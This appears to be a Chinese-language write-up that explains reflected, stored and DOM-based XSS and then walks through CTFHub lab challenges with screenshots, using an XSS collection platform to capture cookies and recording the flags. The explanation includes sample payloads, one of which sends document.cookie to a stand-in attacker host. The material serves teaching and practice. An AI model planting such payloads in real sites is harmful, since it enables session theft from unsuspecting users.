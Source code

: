 +++
title = "XSS"
icon = "article"
toc = true
+++
# XSS

## 漏洞原理

> Web 应用程序在处理用户输入时，没有对输入进行充分的过滤和转义，直接将用户输入的内容输出到页面中，攻击者就可以利用这个漏洞注入恶意脚本。

例如，一个留言板应用程序直接将用户输入的留言显示在页面上，如果攻击者输入一段 JavaScript 代码，当其他用户访问该留言板时，这段代码就会在他们的浏览器中执行。

## 漏洞类型
### 反射型 XSS
**特点**：攻击者诱使用户点击包含恶意脚本的链接，服务器接收请求后将恶意脚本反射回用户的浏览器并执行。这种攻击通常是一次性的，不会在服务器上存储恶意脚本。
**示例**：一个搜索页面，URL 参数直接显示在搜索结果页面上。攻击者构造一个包含恶意脚本的 URL，如http://example.com/search?keyword=<script>alert('XSS')</script>。

### 存储型 XSS

**特点**：攻击者将恶意脚本提交到服务器并存储在数据库中，当其他用户访问包含该恶意脚本的页面时，脚本会在他们的浏览器中执行。这种攻击危害更大，因为它会影响多个用户。
**示例**：在一个论坛的留言功能中，攻击者在留言内容中注入恶意脚本，如<script>document.location='http://attacker.com?cookie='+document.cookie</script>。当其他用户查看该留言时，脚本会将他们的 Cookie 信息发送到攻击者的服务器。

### DOM 型 XSS
**特点**：基于 DOM（文档对象模型）的 XSS 攻击，不依赖服务器端处理，而是通过修改页面的 DOM 结构来注入恶意脚本。攻击者通过诱导用户访问包含恶意脚本的 URL，当页面加载时，脚本会在浏览器中执行。
**示例**：一个页面使用 JavaScript 动态更新内容，根据 URL 参数修改页面元素。攻击者构造一个包含恶意脚本的 URL，如http://example.com/page.html?param=<script>alert('XSS')</script>，当用户访问该 URL 时，脚本会在浏览器中执行。

# 题目

## 反射型

![image-20250411201914007.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a30ead989fa77045aca2dff052ba4e85bc?version=1.0&width=2046&height=1536)

![image-20250411201926443.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a38714a419e39742099d717f732da8ac94?version=1.0&width=2046&height=1536)

在第一个输入框输入内容后，下面会显示。我看别人的wp中的js中写入alert语句都能被执行，我的直接冲定向了

![image-20250411202449543.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a377f4147f64bd4076bb6b525e9e015c1b?version=1.0&width=2046&height=1536)

![image-20250411202458622.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a3d78919447ef3447d8128750b3c019913?version=1.0&width=2046&height=1536)

定义一个变量试一下

![image-20250411203941227.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a38088676e8a734aafaa97a82f364c9af3?version=1.0&width=2046&height=1536)

被执行了

![image-20250411204009304.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a321c2604de6ff4006b5a00ce9b10d1f04?version=1.0&width=2046&height=1536)

接着找个XSS平台，将url填入

![image-20250411205731085.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a3787872f7e3d14779953cd53bc30bcd8e?version=1.0&width=2046&height=1536)

不知道为啥，使用火狐是得不到cookie，最后用的Edge

![image-20250411205620592.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a340309c5761f14c2997521f259eb33cea?version=1.0&width=2046&height=1536)

**flag:ctfhub{8bc9faaca0589642c67759de}**

## 存储型

![image-20250411210859339.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a309e92fbed15f4539a4b609d0a0b0c5f7?version=1.0&width=2046&height=1536)

和上题类似，先测试一下

![image-20250411210930754.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a3bcf513e073ea4d46abfdfc54450524b9?version=1.0&width=2046&height=1536)

![image-20250411210947151.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a38e8cf1c056c040629f3c91566b4e33e9?version=1.0&width=2046&height=1536)

在第一个框中填入项目的地址

![image-20250411211238058.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a3b552f89d022b47eab1e2aa949097260c?version=1.0&width=2046&height=1536)

第二个框填入当前页的url

![image-20250411211358963.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a323cfe41343d54965b4ade8a887086371?version=1.0&width=2046&height=1536)

看一下XSS平台的后台

![image-20250411211453422.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a38bfca430f7f24ceab2095f9318d678a6?version=1.0&width=2046&height=1536)

**flag:ctfhub{3481284913c5d18b9fdcdb77}**

## DOM反射

![image-20250411211920380.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a34a2ab84d1fdb4e0088382ad8b3e07363?version=1.0&width=2046&height=1536)

题目说了是DOM反射，看源码

![image-20250411212021827.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a3a2f14dfd8637474c86272a888990561e?version=1.0&width=2046&height=1536)

填入1试试

![image-20250411211942888.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a3182338ad252f43e193e8c43c1c0749e4?version=1.0&width=2046&height=1536)

![image-20250411212233372.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a35329d0b993c347fab5dec9f2399e31ef?version=1.0&width=2046&height=1536)

中间加个**‘；**

![image-20250411212428413.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a384c4524f2bf34fd19c3e5e976362d259?version=1.0&width=2046&height=1536)

链接交上去

![image-20250411212450981.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a3a0e5f01cb14f40d084126d5239f5fef6?version=1.0&width=2046&height=1536)

去看一下

![image-20250413181505021.png](https://previewengine.zohopublic.com.cn/image/WD/rb2a3dc1ed476de74427f83b59182e023a932?version=1.0&width=2046&height=1536)
